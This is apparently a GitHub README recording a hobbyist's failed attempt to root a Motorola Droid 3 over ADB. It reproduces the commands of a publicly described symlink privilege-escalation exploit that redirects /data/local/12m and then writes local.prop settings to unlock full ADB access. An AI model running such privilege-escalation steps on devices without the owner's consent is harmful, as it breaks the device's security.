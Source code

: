 # XT862
A project using Android Debug Bridge (ADB) with the Droid 3.

###### Things Already Attempted for root access
Exploit found [here.](http://vulnfactory.org/blog/2011/08/25/rooting-the-droid-3/)
```
mv /data/local/12m /data/local/12m.bak
ln -s /data /data/local/12m
```
(reboot device)
```
rm /data/local/12m
mv /data/local/12m.bak /data/local/12m
mv /data/local.prop /data/local.prop.bak
```

shell@solana $ Permission Denied.
Next steps of this exploit are below when local.prop can be moved.

```
echo "ro.sys.atvc_allow_netmon_usb=0" > /data/local.prop
echo "ro.sys.atvc_allow_netmon_ih=0" >> /data/local.prop
echo "ro.sys.atvc_allow_res_core=0" >> /data/local.prop
echo "ro.sys.atvc_allow_res_panic=0" >> /data/local.prop
echo "ro.sys.atvc_allow_all_adb=1" >> /data/local.prop
echo "ro.sys.atvc_allow_all_core=0" >> /data/local.prop
echo "ro.sys.atvc_allow_efem=0" >> /data/local.prop
echo "ro.sys.atvc_allow_bp_log=0" >> /data/local.prop
echo "ro.sys.atvc_allow_ap_mot_log=0" >> /data/local.prop
echo "ro.sys.atvc_allow_gki_log=0" >> /data/local.prop
```
Did not work.
